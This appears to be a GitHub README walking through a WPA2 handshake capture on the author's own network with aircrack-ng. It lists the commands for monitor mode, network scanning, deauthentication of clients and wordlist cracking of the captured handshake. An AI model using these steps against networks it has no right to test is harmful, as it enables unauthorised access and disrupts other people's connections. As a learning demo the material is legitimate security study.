




# 🛠️ WiFi Handshake Capture Demo

This is a demonstration of how to capture a WPA2 handshake using `aircrack-ng` tools.

> ⚠️ This test was performed on **my own network** for educational purposes only.

---

## 📸 Steps (with Images)

1. **Stop network services**
   ```bash
   sudo airmon-ng check kill
   ```
   

2. **Enable monitor mode**
   ```bash
   sudo airmon-ng start wlan0
   ```
   

3. **Discover Wi-Fi networks**
   ```bash
   sudo airodump-ng wlan0mon
   ```
   

4. **Capture WPA2 handshake**
   ```bash
   sudo airodump-ng -c [CH] --bssid [BSSID] -w capture wlan0mon
   ```
   

5. **Disconnect a device (for handshake)**
   ```bash
   sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon
   ```
   

6. **Analyze handshake with a wordlist**
   ```bash
   sudo aircrack-ng -w wordlist.txt -b [BSSID] capture.cap
   ```
   

7. **Result**
   

---

## 📁 Notes

- Environment: Kali Linux
- This project is strictly for learning and demonstration on your own network.
